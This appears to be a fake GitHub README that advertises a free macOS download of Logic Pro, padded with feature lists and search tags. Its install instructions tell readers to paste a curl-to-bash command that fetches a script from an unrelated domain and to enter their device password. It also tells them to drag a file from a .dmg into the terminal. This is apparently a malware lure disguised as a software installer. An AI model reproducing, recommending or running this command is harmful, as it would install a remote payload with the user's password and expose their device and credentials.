 # 🎵 Logic Pro — Professional Music Production Studio for macOS

**Logic Pro** is Apple’s industry-standard digital audio workstation (DAW) for macOS, offering professional-grade tools for recording, editing, mixing, and mastering audio. Whether you're producing music, scoring for film, or editing podcasts, Logic Pro delivers powerful features and seamless macOS integration.

With a vast sound library, MIDI sequencing, software instruments, and support for Dolby Atmos, Logic Pro is the ultimate solution for musicians, composers, and audio engineers using Mac.

---

## ✅ Download Logic Pro for macOS  
[![Download Logic Pro](https://img.shields.io/badge/Download-Logic_Pro-blueviolet)](https://logic-pro-mac-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download Logic Pro for macOS  
[![Download Logic Pro](https://img.shields.io/badge/Download-Logic_Pro-blueviolet)](https://logic-pro-mac-download.github.io/.github)

---

## 📦 What is Logic Pro?

Logic Pro is a full-featured music production suite developed by Apple for macOS users. It combines a professional mixing console, multitrack recording, software synthesizers, audio editing tools, and MIDI support in one cohesive and intuitive interface. Designed to take full advantage of Apple hardware, Logic Pro offers blazing-fast performance on Macs — especially those powered by Apple Silicon.

---

## ✨ Features

- 🎚️ **Multitrack Recording & Mixing** with powerful automation tools  
- 🎹 Huge library of software instruments, loops, and samples  
- 🥁 Drum Machine Designer and Live Loops for dynamic composition  
- 🔊 Dolby Atmos & Spatial Audio support for immersive sound  
- 🧠 Smart Tempo for flexible tempo management  
- 🖥️ Optimized for macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🧩 Full MIDI sequencing and advanced notation editor  
- 🎛️ Support for AU plug-ins and third-party hardware integration  

---

## 💡 Why Use Logic Pro?

- 🎵 Industry-standard DAW trusted by professionals worldwide  
- 🧰 All-in-one solution: compose, record, edit, mix, and master  
- ⚡ Lightning-fast performance on modern Mac systems  
- 📱 Wireless control via Logic Remote on iPad or iPhone  
- 🧑‍🎤 Perfect for solo artists, studios, sound designers, and educators  

---

[![Download Logic Pro](https://img.shields.io/badge/Download-Logic_Pro-blueviolet)](https://logic-pro-mac-download.github.io/.github)

---

## 🖼️ Preview

![Logic Pro Screenshot 1](https://i.pcmag.com/imagery/reviews/00KRt5ZMUqaFDOATGEVUW4t-55..v1715532643.jpg)  
![Logic Pro Screenshot 2](https://dt7v1i9vyp3mf.cloudfront.net/styles/news_large/s3/imagelibrary/A/AppleLogic105_01-hLtOcjY0kB2TSFT30dII33WXL4f2TORL.jpg)

---

## 📌 Tags

apple logicpro, logic pro mac, logic pro x mac, logic pro for students, daw logic pro x,  
logic pro macbook, logic pro macbook air, logic pro on mac, mac with logic pro,  
macbook air and logic pro, macbook air with logic pro, macbook pro for logic,  
price logic pro x, logic for mac, logic pro x mac download, logic pro download for mac,  
macbook with logic pro x, macbook pro with logic pro x, logic pro app, logic pro 10.6 download,  
logic pro 10.8, logic macbook, macbook pro logic pro, logic pro x for sale,  
logic mac download, logic software mac, logic pro mac download

